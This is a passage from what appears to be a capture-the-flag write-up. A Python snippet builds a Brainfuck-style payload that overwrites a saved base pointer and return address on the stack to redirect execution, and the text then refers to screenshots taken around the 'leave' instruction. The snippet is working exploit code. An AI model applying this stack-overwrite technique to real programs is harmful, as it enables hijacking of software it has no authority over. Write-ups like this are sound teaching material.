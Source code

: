 ```python
# saved rbp of run() -> another saved rbp
# 0x007fffffffdfd0   -> 0x007fffffffdfe0
payload += b'>'*(7 + 0x10)
payload += b'+'*0x10

# saved rip of run() -> puts of play_game
# 0x0055555555592a   -> 0x005555555554ac
payload += b'>'*0x8
payload += b'+'*0x82
payload += b'>'
payload += b'-'*0x5
```

Before it executes leave:

![before-leave-of-puts.png](images/before-leave-of-puts.png)

After it executes leave:
